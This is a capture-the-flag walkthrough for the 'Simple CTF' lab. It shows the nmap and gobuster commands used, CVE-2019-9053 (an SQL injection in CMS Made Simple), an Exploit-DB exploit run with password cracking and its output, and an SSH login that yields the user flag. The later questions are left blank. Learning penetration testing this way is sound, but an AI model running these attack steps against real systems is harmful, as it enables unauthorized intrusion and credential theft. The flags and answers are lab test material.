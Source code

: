 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap -sC -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?

Use the exploit from Exploit-DB with a few minor changes. I had to delete the `termcolor` module and fix a few print statements.
```
python2 exploit.py -u http://<target-ip>/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?
> ssh

What's the user flag?
```
ssh mitch@<target_ip> -p2222
```
> G00d j0b, keep up!

Is there any other user in the home directory? What's its name?


What can you leverage to spawn a privileged shell?


What's the root flag?

